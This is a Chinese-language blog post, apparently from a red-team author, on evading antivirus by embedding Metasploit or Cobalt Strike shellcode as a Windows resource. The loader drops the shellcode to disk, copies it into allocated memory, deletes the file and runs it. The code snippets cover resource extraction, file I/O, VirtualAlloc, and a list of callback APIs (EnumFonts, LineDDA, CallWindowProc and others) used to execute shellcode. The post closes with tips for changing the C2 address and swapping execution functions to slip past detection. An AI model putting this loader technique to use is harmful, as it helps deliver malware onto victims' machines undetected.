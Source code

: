 ```yaml
---
title: 资源分离免杀
tags: bypass
---
```


# 资源分离免杀

## 起因

很多文章都写到了分离免杀，采用的方法是将 shellcode 和 执行函数分离，开辟内存空间复制 shellcode，然后执行函数执行。改进版就是远程加载，让木马去下载存储在远程服务器的 shellcode。

昨天看 BackStab 代码的时候，它有一个将 ProcEXP.sys 放入资源文件，加载驱动前写入到磁盘的操作。这种操作其实就可以替代远程加载，只需要上传一个 exe 文件，在读取 shellcode 前先在当前目录释放一个 bin 文件，文件内容复制到开辟好的内存空间后再删除该文件，随后调用执行函数执行。

## 过程

### 加载资源

首先肯定是添加资源，随便添加什么资源，到时候再改就好了

![image-20210629164331246](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629164331246.png)

在项目目录下新建一个 resources 文件夹，存上 MSF 或 CS 生成的 shellcode 文件：

![image-20210629164528797](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629164528797.png)

打开 资源文件(.rc)，用编辑方式打开：

![image-20210629164646700](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629164646700.png)

修改资源文件

```c
#include "resource.h"

IDR_SYS RCDATA "..\\resources\\1.bin"
```

同样 resource.h 也应该修改

```
#define IDR_SYS                      101
```

### 资源释放

释放资源有两步，首先要定位资源并得到资源的大小和内容，然后写入文件。

第一步需要用到 4 个 API：

```c
// 确定资源位置，获得资源句柄
HRSRC FindResourceA(
  HMODULE hModule,	// NULL 代表当前进程或模块
  LPCSTR  lpName,	// 资源名称，MAKEINTRESOURCE(ID)，这里就是 MAKEINTRESOURCE(101)
  LPCSTR  lpType	// 资源类型，这里是RT_RCDATA，Application-defined resource (raw data)
);

//指定的资源加载到内存当中，获得句柄
HGLOBAL LoadResource(
  HMODULE hModule,	// Null 代表当前进程或模块
  HRSRC   hResInfo	// 资源句柄
);

// 锁定内存中的资源，返回指向资源数据的内存指针
LPVOID LockResource(
  HGLOBAL hResData
);

// 资源大小
DWORD SizeofResource(
  HMODULE hModule,
  HRSRC   hResInfo
);
```

这样就可以获得内存中资源数据的指针和资源大小。

第二步就是新建和写入文件

```c
HANDLE CreateFileW(
  LPCWSTR               lpFileName,
  DWORD                 dwDesiredAccess,	// GENERIC_WRITE
  DWORD                 dwShareMode,
  LPSECURITY_ATTRIBUTES lpSecurityAttributes,	// FILE_ATTRIBUTE_NORMAL
  DWORD                 dwCreationDisposition,	// CREATE_ALWAYS
  DWORD                 dwFlagsAndAttributes,
  HANDLE                hTemplateFile
);

BOOL WriteFile(
  HANDLE       hFile,
  LPCVOID      lpBuffer,	// LockResource 返回的指针
  DWORD        nNumberOfBytesToWrite,	// SizeofResource 返回的大小
  LPDWORD      lpNumberOfBytesWritten,
  LPOVERLAPPED lpOverlapped
);
```

### 文件写入到内存并删除

将释放出来的文件写入到内存中，用的还是老方法，开辟内存空间后打开文件，用 ReadFile 读到开辟好的内存空间中

```c
//申请内存空间
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);

//打开文件仍然用 CreateFileW，修改参数为打开并读取
CreateFileW("1.bin", GENERIC_READ, 0, NULL, OPEN_ALWAYS, 0, NULL)

// 获取文件大小
DWORD GetFileSize(
  HANDLE  hFile,
  LPDWORD lpFileSizeHigh
);

// 读取文件到指定的缓冲器中
BOOL ReadFile(
  HANDLE       hFile,
  LPVOID       lpBuffer,	// 开辟的内存空间指针
  DWORD        nNumberOfBytesToRead,
  LPDWORD      lpNumberOfBytesRead,
  LPOVERLAPPED lpOverlapped
);
```

删除操作用的 DeleteFileW

```c
DeleteFileW(Path);
```

### 执行

执行的方法就很多了，经典执行：

```c
typedef void(__stdcall* CODE) ();
CODE code = (CODE)lpAddress;
code();
```
回调函数执行,[参考](https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/)：

```c
EnumFonts(GetDC(0), (LPCWSTR)0, (FONTENUMPROC)(char *)shellcode, 0);

EnumFontFamiliesEx(GetDC(0), 0, (FONTENUMPROC)(char *)shellcode, 0, 0);

LineDDA(10, 11, 12, 14, (LINEDDAPROC)(char *)shellcode, 0);

EnumFontFamilies(GetDC(0), (LPCWSTR)0, (FONTENUMPROC)(char *)shellcode,0);

EnumDisplayMonitors((HDC)0,(LPCRECT)0,(MONITORENUMPROC)(char *)shellcode,(LPARAM)0);

GrayString(0, 0, (GRAYSTRINGPROC)(char *)shellcode, 1, 2, 3, 4, 5, 6);

CallWindowProc((WNDPROC)(char *)shellcode, (HWND)0, 0, 0, 0);

EnumResourceTypes(0, (ENUMRESTYPEPROC)(char *)shellcode, 0);
```

## 结果

杀软1检测：

![image-20210629174907927](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629174907927.png)

杀软2检测：

![image-20210629175207180](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629175207180.png)

杀软3检测：

![image-20210629180554436](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629180554436.png)

## 后续

更改远程连接的地址只需要在编译前替换 resources 文件夹下的 bin 文件即可。

这里用的是 msf 生成的默认 shellcode 文件，被杀软检测出具备 MSF 特征，只需要对这个 bin 做处理就可以了，还可以更换执行函数来绕过杀软的检测，根据查杀的情况不同修改。

代码地址：https://github.com/Ryze-T/Bypass_frames
